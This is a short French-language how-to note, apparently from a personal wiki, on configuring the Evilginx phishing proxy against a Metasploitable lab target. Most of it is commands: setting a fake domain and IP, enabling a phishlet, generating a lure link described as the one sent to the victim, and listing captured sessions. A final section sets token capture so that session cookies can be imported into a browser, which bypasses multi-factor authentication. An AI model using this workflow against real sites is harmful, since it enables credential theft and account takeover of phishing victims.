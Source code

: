 Une fois notre [[Creating Phishlet]] configurer.

#Basic

Configurer un faux domaine cible

```c
config domain fake.com
```

Attributer une IP au faux domain, cette IP est generalement celui ou `evil` est heberger

```c
config ipv4 127.0.0.1
```

Donner un hostname a un phishlets le nom d'un phishlets doit toujours se terminer par le **domaine** configurer dans `evil` 

Le mieux est d'utiliser le `proxy_hosts->domain.config.domain`

```c
phishlets hostname metasploitable metasploitable.fake.com
```

Activer le phislets cela demande une configuration TLS

```c
phishlets enable metasploitable
phishlets metasploitable
```

Generer un host `/etc/hosts`

```c
phishlets get-hosts metasploitable
```

Cree un leurs, c'est le lien qui sera envoyer a la victime

```c
lures create metasploitable
lures get-url 0
```

Afficher les informations d'une sessions

```c
sessions
sessions id
```

#MFA 

Ajouter `always`dans ce fichier pour que Evilginx prend toutes les donnes

```json
auth_tokens:
    keys: ['PHPSESSID:always', 'security:always']
```

Copuer le result du cookie dans EditThisCookie

[[Personalizing Lures]]

